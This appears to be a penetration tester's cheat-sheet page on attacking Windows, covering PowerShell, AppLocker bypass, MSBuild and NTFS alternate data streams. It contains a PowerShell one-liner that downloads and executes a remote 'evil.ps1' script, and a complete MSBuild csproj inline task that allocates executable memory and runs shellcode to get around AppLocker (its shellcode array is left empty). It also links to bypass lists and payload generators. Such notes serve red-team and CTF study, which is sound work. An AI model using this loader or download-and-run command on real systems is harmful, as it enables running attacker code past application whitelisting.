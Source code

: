 # Windows

## Windows Registry

## Powershell

Powershell was Windows' answer to improving the scripting solution within Windows.  It's incredibly powerful for both Sysadmins as well as attackers.  Here I will include a number of snippets I've found useful for attacking devices with.

#### Executing a script without an extension

```text
powershell - < ps1file
```

#### Executing a script hosted on a web-server

```text
iex (new-object net.webclient).downloadstring('http://192.168.0.1/evil.ps1')
```

## Applocker

> AppLocker advances the app control features and functionality of Software Restriction Policies. AppLocker contains new capabilities and extensions that allow you to create rules to allow or deny apps from running based on unique identities of files and to specify which users or groups can run those apps.

Source: [What Is AppLocker?](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/what-is-applocker)

Despite the power this gives the Administrator in locking down what users can and can't execute, there are a disturbing number of ways to bypass this.  [Ultimate Applocker Bypass List](https://github.com/api0cradle/UltimateAppLockerByPassList) aims to record most of them.

[GreatSCT ](https://github.com/GreatSCT/GreatSCT)can also be used to generate payloads to bypass these.

### MSBuild

We can use MSBuild to execute arbitrary shellcode. The Cn33liz [MSBuildShell ](https://github.com/Cn33liz/MSBuildShell)is one such example. To compile a `csproj` file we use:

```text
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe test.csproj
```

An example csproj file to include shellcode within is:

```markup
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
	  	byte[] shellcode = new byte[351] {};
	  	UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

## Alternate Data Streams

This is more a  feature of the NTFS file system than it is a Windows feature, but it's important to understand from both a red-team and blue-team perspective.  

These are also disturbingly common in CTF's through the security via obscurity, so we need some method of viewing and potentially executing these alternate data streams.  To list all alternate data streams 

```text
dir /R
```

### Powershell

```bash
Get-Content -path C:\Users\Booj\ads -stream *
```

We can also view individual streams using

```text
Get-Content -path C:\Users\Booj\ads -stream <streamname>
```

### Windows Pre-Vista

In Windows prior to Vista, there's unfortunately no easy way of viewing these streams in default Windows without a GUI access.  In an engagement this may not be entirely practical.

The best version, working on XP, I found to be [LADS](https://www.aldeid.com/wiki/LADS), but a number of the links online appear to be dead.  The [Web Archive](http://web.archive.org/web/20150602054446/http://www.heysoft.de/download/lads.zip) version is still up so acquiring a copy is still possible.

